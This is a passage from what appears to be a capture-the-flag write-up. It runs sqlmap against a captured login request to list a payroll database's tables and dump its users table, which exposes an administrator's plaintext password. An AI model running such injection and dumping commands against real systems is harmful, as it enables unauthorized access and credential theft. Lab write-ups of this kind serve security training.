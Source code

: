 There are two databases, though one is the default for MySQL:

```

oxdf@hacky$ sqlmap -r login.req --batch --threads 10 --current-user
...[snip]...
available databases [2]:
[*] information_schema
[*] payroll_db
...[snip]...

```

There are 11 tables:

```

oxdf@hacky$ sqlmap -r login.req --batch --threads 10 -D payroll_db --tables
...[snip]...
Database: payroll_db
[11 tables]
+---------------------+
| position            |
| allowances          |
| attendance          |
| deductions          |
| department          |
| employee            |
| employee_allowances |
| employee_deductions |
| payroll             |
| payroll_items       |
| users               |
+---------------------+
...[snip]...

```

I’ll dump the `users` table:

```

oxdf@hacky$ sqlmap -r login.req --batch --threads 10 -D payroll_db -T users --dump
...[snip]...
Database: payroll_db
Table: users
[1 entry]
+----+-----------+---------------+------+---------+---------+-----------------------+------------+
| id | doctor_id | name          | type | address | contact | password              | username   |
+----+-----------+---------------+------+---------+---------+-----------------------+------------+
| 1  | 0         | Administrator | 1    | <blank> | <blank> | SuperGucciRainbowCake | Enemigosss |
+----+-----------+---------------+------+---------+---------+-----------------------+------------+
...[snip]...

```
